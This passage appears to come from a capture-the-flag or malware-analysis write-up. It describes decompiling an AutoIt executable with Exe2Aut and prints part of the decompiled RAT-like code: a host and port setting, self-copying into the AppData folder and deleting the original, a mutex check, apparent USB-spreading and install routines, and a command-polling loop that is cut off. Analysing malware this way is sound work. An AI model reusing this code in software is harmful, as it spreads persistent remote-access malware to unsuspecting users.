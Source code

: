 Searching Google on how to decompile AutoIt programs, we can find [Exe2Aut.exe](https://domoticx.com/autoit3-decompiler-exe2aut/) which automatically decompiled the program for us.

Part of the decompiled program:
```
...
Opt("RunErrorsFatal", 0)
Local $host = "127.0.0.1"
Local $port = 1245
Local $exe = "aL4N.exe"
Local $dir = EnvGet("appdata") & "\"
Local $vr = "0.3.3a"
Local $name = "aL4N"
$name &= "_" & Hex(DriveGetSerial(@HomeDrive))
$os = @OSVersion & " " & @OSArch & " " & StringReplace(@OSServicePack, "Service Pack ", "SP")
If StringInStr($os, "SP") < 1 Then $os &= "SP0"
Local $usb = "!"
cusb()
$melt = 0
$y = "0njxq80"
$mtx = "appdataaL4N.exe"
$timer = 0
$fh = -1
If $cmdline[0] = 2 Then
	Select 
		Case $cmdline[1] = "del"
			If $melt = -1 Then
				FileDelete($cmdline[2])
			EndIf
	EndSelect
EndIf
Sleep(@AutoItPID / 10)
If _singleton($mtx, 1) = 0 Then
	Exit
EndIf
If @AutoItExe <> $dir & $exe Then
	FileCopy(@AutoItExe, $dir & $exe, 1)
	ShellExecute($dir & $exe, '"del" ' & @AutoItExe)
	Exit
EndIf
$mem = ""
$sock = -1
bk()
xins()
ins()
usbx()
$time = 0
$ac = ""
$ea = ""
While 1
	$time += 1
	If $time = 5 Then
		$time = 0
		ins()
		usb()
	EndIf
	If @error Then
	EndIf
	$pk = rc()
	If @error Then
	EndIf
	Select 
		Case $pk = -1
			Sleep(2000)
```